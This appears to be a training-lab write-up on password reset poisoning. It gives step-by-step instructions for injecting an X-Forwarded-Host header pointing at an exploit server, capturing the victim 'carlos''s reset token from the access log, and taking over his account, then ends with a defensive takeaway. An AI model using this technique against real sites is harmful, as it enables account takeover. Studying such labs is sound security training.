







# Lab 12 — Password reset poisoning via middleware

> [← Back to Authentication](../README.md)

---

## 🎯 Objective
Poison a password reset link by injecting a custom `X-Forwarded-Host` header so the reset token gets sent to your exploit server.

---

## 🪜 Steps

### Step 1 — Intercept the password reset request
Go to **Forgot password** → enter any username → intercept the POST request in Burp.




---

### Step 2 — Poison with X-Forwarded-Host
Send request to **Repeater**. Add the header:
```
X-Forwarded-Host: exploit-YOUR-ID.exploit-server.net
```
Change the username to `carlos`. Send the request.

The reset email sent to Carlos will contain a link pointing to **your** exploit server.



---

### Step 3 — Capture the reset token
Go to **Exploit Server → Access log**.

Find the GET request — it contains Carlos's real reset token:
```
GET /forgot-password?temp-forgot-password-token=CAPTURED-TOKEN
```



---

### Step 4 — Use the token
Take the real reset URL and replace its token with the captured token.



---

### Step 5 — Set a new password and login
Open the modified link → set a new password → login as Carlos.




---

## ✅ Result
Lab solved!

---

## 💡 Key Takeaway
Never use `X-Forwarded-Host` to build password reset links. Always construct URLs from the server's own configured domain.
